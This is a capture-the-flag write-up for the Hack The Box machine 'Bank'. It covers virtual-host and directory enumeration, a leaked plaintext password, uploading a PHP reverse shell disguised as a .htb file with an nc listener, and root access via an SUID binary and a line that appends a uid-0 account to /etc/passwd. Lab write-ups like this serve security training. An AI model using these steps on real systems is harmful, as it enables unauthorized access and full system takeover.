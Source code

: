 ```yaml
---
clayout: ctf
title: Bank
date: 2025-08-17
image: /ctf/hack-the-box/machines/bank/info-card.png
type: Hack The Box

ctf:
    - name: Bank
      link: https://app.hackthebox.com/machines/26
      thumbnail: /ctf/hack-the-box/machines/bank/info-card.png
      pwned:
        - link: https://labs.hackthebox.com/achievement/machine/585215/26
          thumbnail: /ctf/hack-the-box/machines/bank/pwned.png
---
```


## Challenge Overview

**Bank** is an easy-rated Linux machine that highlights classic **web application exploitation** techniques and **privilege escalation** misconfigurations. The compromise path follows three main stages:

* **Web Enumeration**: Identifying a hidden virtual host and extracting sensitive data
* **Initial Foothold**: Exploiting a weak file upload validation to obtain a reverse shell
* **Privilege Escalation**: Gaining root access via insecure SUID binaries and misconfigured file permissions

## Initial Reconnaissance

### Network Enumeration

Use `nmap` to scan the machine for open ports and services:

```bash
nmap -sC -sV -A -oN nmap.txt 10.10.10.29
```

**Results:**

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
```

**Observations:**

* Web service running on Apache
* DNS service available (suggesting possible subdomain/virtual host usage)
* SSH open for potential later access

### Web Enumeration

#### Virtual Host Discovery

Visiting `http://10.10.10.29` only shows the default Apache page, often an indicator of **name-based virtual hosting**.

Based on the machine’s name, add a host entry for `bank.htb`:

```bash
echo "10.10.10.29 bank.htb" | sudo tee -a /etc/hosts
```

Accessing `http://bank.htb` reveals a login page:

![Bank Login Page](/ctf/hack-the-box/machines/bank/bank-login-page.png)

#### Directory Enumeration

```bash
gobuster dir -u http://bank.htb \
  -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt \
  -x php -o gobuster.txt
```

**Findings:**

```bash
/index.php            (302 → login.php)
/login.php            (200)
/support.php          (302 → login.php)
/uploads              (301)
/assets               (301)
/logout.php           (302 → index.php)
/inc                  (301)
/balance-transfer     (301)
```

The `/balance-transfer` directory stands out, exposing a directory listing containing multiple `.acc` files.

![Balance Transfer Page](/ctf/hack-the-box/machines/bank/balance-transfer-page.png)

## Exploitation

### Credential Disclosure

Most `.acc` files contain encrypted data, but one file (`68576f20e9732f1b2edc4df5b8533230.acc`) leaks plaintext credentials due to a failed encryption process:

```text
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
```

With these credentials, login succeeds and grants access to the bank dashboard.

![Bank Dashboard](/ctf/hack-the-box/machines/bank/bank-dashboard.png)

### File Upload Vulnerability

The **Support** page allows image uploads. Reviewing the source code discloses a dangerous misconfiguration:

```html
<!-- [DEBUG] 
I added the file extension .htb to execute as php for debugging purposes only
[DEBUG] -->
```

This means any `.htb` file is executed as PHP.

**Exploit:**

1. Generate a PHP reverse shell (e.g., [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)).
2. Upload it as `shell.htb`.
3. Trigger the file via the `Click here` button on `My Tickets` table.

```bash
nc -lvnp 1337
```

Once executed, a reverse shell is obtained:

```bash
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**User flag:** Located in `/home/chris/user.txt`

## Privilege Escalation

### Path 1: Abusing SUID Binary

List SUID binaries:

```bash
find / -type f -perm -u=s 2>/dev/null
```

Notable finding:

```bash
/var/htb/bin/emergency
```

This script is misconfigured and executes itself recursively with root privileges, leading to a root shell:

```bash
/var/htb/bin/emergency
id
uid=0(root) gid=0(root)
```

**Root flag:** `/root/root.txt`

### Path 2: Writable /etc/passwd

Another privilege escalation vector is the world-writable `/etc/passwd`:

```bash
ls -l /etc/passwd
-rw-rw-rw- 1 root root ... /etc/passwd
```

**Exploit:**

1. Generate a password hash:

   ```bash
   openssl passwd -1 random
   ```

2. Append a root-level user entry:

   ```bash
   echo 'random:<hash>:0:0:root:/root:/bin/bash' >> /etc/passwd
   ```

3. Switch to the new account:

   ```bash
   su random
   ```

Root access is obtained.

> [!NOTE]
> Always upgrade to a proper TTY before using `su`:
>
> ```bash
> python -c 'import pty; pty.spawn("/bin/bash")'
> ```

## References

* [Hack The Box - Bank](https://app.hackthebox.com/machines/26)
* [PentestMonkey PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)
